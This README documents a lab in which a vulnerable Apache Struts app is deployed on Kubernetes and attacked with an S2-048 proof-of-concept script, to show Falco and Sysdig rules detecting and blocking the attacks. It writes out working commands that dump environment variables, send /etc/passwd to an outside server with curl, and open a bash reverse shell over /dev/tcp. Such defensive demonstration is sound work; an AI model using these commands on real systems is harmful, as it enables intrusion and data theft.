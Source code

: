 # struts_poc  
all credit to https://github.com/hook-s3c/apache-struts2-PoC, all I did is add a few things, bring it to life a bit more, EKS, etc. 

![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

There are sometimes holes in our runtimes. This is nothing more than good old Kali struts poc rev shell in a k8s cluster. Simple.  
![image](https://user-images.githubusercontent.com/4404271/155783401-56aeae38-1297-4838-b94e-a2ff31477d29.png)  
`Hints to get this working yourself before we dive into the Steps:`    

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  

#public login to us-west-2 not supported by aws, no worries it's supported in us-east-1 so let's just do it there ;-)  

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  
kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
struts   LoadBalancer   10.100.144.108   12345.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m

`Step 1`  

OK now we can attack, from the attacker "box" (actually just a tmux on my ubuntu box):  

cd ~/apache-struts2-PoC  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'env'  

...and we dump the environment from our struts box, to our attacker "box" and see it on STDOUT... not good!  

KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42
etc..  


`Step 2`  
First, on the cc server, start some simple web server (you can find it in this repo) such as: 

python3 webserver.py  

`Step 3`  

Now let us force our exploitable struts instance to reach out to our webserver like this:  

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl jumpbox.brett1.com:8080/hi_from_inside_the_container_in_our_cluster'

So that is an HTTP GET method. We can imagine, a workload needs to update or get some file, it may be permissable to let it do a GET, but we want to know when this happens.  
So, I wondered if I could modify an existing Falco rule to warn on curl GET? Yes! 
![image](https://user-images.githubusercontent.com/4404271/155773758-cf712d92-c7f1-42e9-913f-d34c5c2fd1b2.png)
![image](https://user-images.githubusercontent.com/4404271/155773836-8430f346-1858-41a6-ac30-5f589bb930da.png)


So, as you can see above, Falco allows us to get granular enough to tell the difference between a curl POST and a curl GET <Borat>very nice!</Borat>  
So, this GET shows up on our little CC web server, and logs in Sysdig Events as a warning about curl, naughty, but I'll allow it, this time!  

![image](https://user-images.githubusercontent.com/4404271/155774031-a30a2755-7851-4cbb-95b3-30c231ab38fd.png)
![image](https://user-images.githubusercontent.com/4404271/155774091-c6d9dcd4-939c-43a7-a981-0128516feace.png)

Here you can see Sysdig agent running in our EKS cluster warns on curl GET, but allows it:  
![image](https://user-images.githubusercontent.com/4404271/155774256-163a9e44-3f0f-41b4-bc9c-3b37e4ef7039.png)

`Step 4`  

OK now with our confidence sky high, through the roof, let's do a curl POST to send the passwd file to our CC server here we go:  
(But first, we must turn off our Sysdig policy to block POST or else we will never see it work)  
![image](https://user-images.githubusercontent.com/4404271/155774448-99285ef4-027f-43a8-b4bc-8712f9540372.png)

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl -d @/etc/passwd jumpbox.brett1.com:8080'

And believe me, that works! We see the passwd file appearing in our CC server.  
![image](https://user-images.githubusercontent.com/4404271/155774611-879cc683-20db-4454-93df-2dab0de3eaab.png)
![image](https://user-images.githubusercontent.com/4404271/155774632-a9f44814-7eb7-4e11-87ed-407cdc604266.png)

OK this is beyond the pale, we cannot allow this.  
So we simply toggle our curl POST policy to ON, this has the Falco rule to fire iif there is a curl POST,  
and has an action to kill the container:  
![image](https://user-images.githubusercontent.com/4404271/155774866-38990415-0101-43f1-a6ab-8090bfd2f1fb.png)

here is that Falco rule - it is identical to the one for the curl GET, just without the NOT negation:  
![image](https://user-images.githubusercontent.com/4404271/155775341-b22453cb-bb5b-4448-9f15-1d79bbe4d170.png)

And it works! The container is killed so quickly, the passwd never shows up on the CC server (I know, I tested it probably a hundred times, and I have a replica set of two apache struts containers behind my LoadBalancer )  
![image](https://user-images.githubusercontent.com/4404271/155782926-87ce6b08-b549-4ac7-989f-80e1528077a2.png)

![image](https://user-images.githubusercontent.com/4404271/155775568-61d26d3e-4cfe-4c52-b914-afc3101079b0.png)

Here you see my first instance was selected by the LoadBalancer target group, and also, my second instance.  You can see the restarts and you can see the one instance is in error when I make this screenshot:  

![image](https://user-images.githubusercontent.com/4404271/155775818-dde27d24-5e23-4650-a3ce-d0794628db26.png)

and here you can see, nothing ever appears on my CC server, no passwd file is POSTed:  
![image](https://user-images.githubusercontent.com/4404271/155776198-0e438449-c168-4308-9fc3-38f26b9109f0.png)



`Step 5`  

So now to put the cherry on top, let's do a reverse shell:  
On our CC server let's just listen like so: nc -l 4242  

And then from our attack box let's do it:  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'

And if you like to watch animations here we are:  

![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)

![image](https://user-images.githubusercontent.com/4404271/153435925-60ccd750-ad11-4f80-ad72-e27f01d75e09.png)

![image](https://user-images.githubusercontent.com/4404271/153497163-7b424dc2-3652-4798-9200-1606fd54876f.png)

![image](https://user-images.githubusercontent.com/4404271/153490296-a07fb685-8b04-48bb-8af0-7bff11cc2c21.png)

